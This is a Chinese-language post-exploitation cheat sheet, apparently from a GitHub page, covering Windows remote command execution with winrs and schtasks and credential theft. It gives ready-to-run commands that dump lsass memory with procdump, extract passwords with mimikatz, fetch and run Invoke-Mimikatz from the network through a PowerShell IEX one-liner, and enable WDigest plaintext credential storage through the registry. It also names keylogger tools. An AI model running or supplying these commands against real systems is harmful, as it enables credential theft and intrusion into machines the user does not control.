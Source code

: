 Keylogger (tip: 可以把管理工具，如 navicat, putty, SecureCRT, PLSQL 设置记住密码) --redrain ixkeylog

linux>=2.63 推荐 --redrain 

### 远程命令执行

> at\schtasks\psexec\wmic\sc\ps

2012 r2 起,默认端口 5985,系统自带远程管理 winrs

> winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig

这里 schtasks 用着很舒服，

> schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1  每分运行1次

如果程序有参数用引号 

> "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"

``/RU`` 可以以 system 启动，例如 

> schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM

> schtasks /create /tn mytask /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2

> schtasks /Query /TN mytask

> net time

> schtasks /Query /TN mytask

> schtasks /Delete /TN mytask /F

### mimikatz + procdump 获得内存 hash

如果服务器是 64 位，要把 Mimikatz 进程迁移到一个 64 位的程序进程中，才能查看 64 位系统密码明文。32 位任意

运行

> procdump.exe -accepteula -ma lsass.exe lsass.dmp(管理权限)

后 lsass.dmp 放到 mimikatz.exe 同目录，运行以下命令

> mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"

导出当前 

> mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"

> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Windows Server 2012, 部分 Windows Server 2008 默认无法使用 mimikatz 导出明文口令

解决方法：启用 Wdigest Auth, cmd:

> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

powershell:
